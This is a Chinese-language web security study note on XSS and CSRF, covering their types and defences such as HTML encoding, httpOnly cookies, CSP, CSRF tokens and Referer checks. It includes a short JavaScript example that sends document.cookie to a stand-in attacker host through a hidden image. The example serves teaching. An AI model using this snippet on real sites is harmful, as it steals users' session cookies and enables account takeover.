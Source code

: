 
### XSS和CSRF 防御

XSS和CSRF都属于跨站攻击，XSS是实现CSRF诸多途径中的一条，但不是唯一一条

xss的本质是让对方浏览器执行你插入的js ，来获取cookie等信息；csrf是借用用户的身份，向服务器发送请求

XSS分为存储型和反射型：
- 存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie等
- 反射型XSS，非持久化，需要欺骗用户自己去点击链接才能触发XSS代码。发出请求时，XSS代码出现在URL中，作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执行XSS

#### XSS防范：

1）客户端校验用户输入信息，只允许输入合法的值，其他一概过滤掉，防止客户端输入恶意的js代码被植入到HTML代码中，使得js代码得以执行
 - 移除用户上传的DOM属性，如onerror等
 - 移除用户上传的style节点，script节点，iframe节点等
2）对用户输入的代码标签进行转换（html encode）
3）对url中的参数进行过滤
4）对动态输出到页面的内容进行HTML编码
5）服务端对敏感的Cookie设置 httpOnly属性，使js脚本不能读取到cookie
6)  CSP 即是 Content Security Policy

```javascript
var img = document.createElement('img');
img.src='http://www.xss.com?cookie='+document.cookie;
img.style.display='none';
document.getElementsByTagName('body')[0].appendChild(img);

这样就神不知鬼不觉的把当前用户的cookie发送给了我的恶意站点，我的恶意站点通过获取get参数就拿到了用户的cookie。当然我们可以通过这个方法拿到用户各种各样的数据。
```

目前很多浏览器都会自身对用户的输入进行判断，检测是否存在攻击字符，比如你上述提到的`<script>`标签，这段脚本很明显就是一段xss攻击向量，因此浏览器会对这段输入进行处理，不同的浏览器处理方式也不一样。可以在浏览器中将这个拦截关闭


#### 跨站请求伪造的过程与防范：

http://www.imooc.com/article/13552

过程：用户小明在你的网站A上面登录了，A返回了一个session ID（使用cookie存储）,小明的浏览器保持着A网站的登录状态，攻击者小强给小明发送了一个链接地址，小明打开了地址的时候，这个页面已经自动的对网站a发送了一个请求，通过使用小明的cookie信息，这样攻击者小强就可以随意更改小明在A上的信息。

1）使用token：服务器随机产生tooken，然后以tooken为秘钥产生一段密文，把token和密文都随cookie交给前端，前端发起请求时把密文和token交给后端，后端对token和密文进行验证，看token能不能生成同样的密文，这样即使黑客拿到了token也无法拿到密文
```
http://www.weibo.cn?follow_uid=123&token=73ksdkfu102
```


2）使用验证码：每一个重要的post提交页面，使用一个验证码，因为第三方网站是无法获得验证码的

3）检测http的头信息refer。Referer记录了请求的来源地址，服务器要做的是验证这个来源地址是否合法

4）涉及敏感操作的请求改为POST请求


